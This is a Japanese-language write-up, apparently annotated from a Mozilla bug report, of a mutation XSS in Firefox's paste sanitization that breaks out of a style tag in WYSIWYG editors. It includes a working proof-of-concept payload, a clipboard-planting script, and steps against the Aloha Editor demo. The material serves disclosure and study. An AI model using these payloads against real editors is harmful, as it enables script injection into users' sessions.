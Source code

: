 # Mutation XSS via copy-and-paste in WYSIWYG editors

https://bugzilla.mozilla.org/show_bug.cgi?id=1602843

最近ブラウザのコピー＆ペーストを解析していて、https://bugzilla.mozilla.org/show_bug.cgi?id=1599181　と似たようなバグを見つけたのですが、
こちらの方はペースト時にMutation XSSを許してしまいます。
Webページが脆弱性を持つためには何か特定のパターンに従う必要がありますが、
私はかなり簡単に見つけることができました。

問題の根本は上記レポートの時と全く同じで、CSSのシリアライズです。
要約すると、貼り付けられたコンテンツに <style> タグが含まれている場合、Firefox はそれをサニタイズすることを決定します。
スタイルシートに「危険な」ルール（@import のような）が含まれていなければそのまま貼り付けられますが、含まれていれば書き換えられます。次の例を考えてみましょう。


```html
<style>
@import'';
@font-face { font-family: 'ab<\/style><img src onerror=alert(1)>'}
</style>
```

@importのせいで、貼り付けた後にコードがサニタイズされてしまいます。

```html
<style>
@font-face { font-family: "ab</style><img src onerror=alert(1)>"; }
</style>
```

<\/style>がどのように</style>に変換されたかに注目してください。上記のケースでは、スタイルシートのテキストノードが直接変更されているので、
これ自体に問題はありません。しかし、アプリケーションが次のようなことをした場合、これ自体に問題はありません。

```html
textEditor.innerHTML = clipboardData.innerHTML;
```

というのも、<img>タグは<style>タグを残してしまうからです。特定のアプリケーションがそうするかもしれないというのが私の想定でしたが、ググってみると、
これを正確に行う2つのWYSIWYGエディタを発見しました。
ですから、おそらくもっと多くのアプリケーションがあるのでしょう。

（つまり、 <\/style> が </style> に変換されるため、これを clipboardData.innerHTML 経由で書き込むことで <style>の終了と後続 処理をインジェクションできるということ？）

## PoC
1. Go to https://jsbin.com/xivapasere/1/edit?html,output
2. Press copy me.
3. Go to https://rawgit.com/alohaeditor/Aloha-Editor/hotfix/src/demo/boilerplate/ (Mutation XSS に対して脆弱なテキストエリアがある).
4. Give Aloha Editor a while to load...
5. Go to any contenteditable content.
6. Paste from clipboard.
7. Alert fires!

PoC
```html
<button onclick=document.execCommand('copy')>
  me</button>!
Everything will be fine!
<br><span style=color:red id=out></span>
<script>
  document.oncopy = ev => {
    ev.preventDefault();
    const exploit = String.raw`<style>
@font-face { font-family: "ab<\/style><img src onerror=alert(1)>"; }
</style>`;
    ev.clipboardData.setData('text/html', exploit);
    out.innerText = 'Good! Now paste it!';
  }
</script>
```

重要そうなところは以下

before
```html
<style>
@font-face { font-family: "ab<\/style><img src onerror=alert(1)>"; }
</style>
```

after
```html
<style>
@font-face { font-family: \"ab</style><img src onerror=alert(1)>\"; }
</style>
```

`"` が `\"` に変わり、後続の `<\/style>` が `</style>` に変わっている。
これによって style タグが閉じ、後続の <img> がInjectされる。
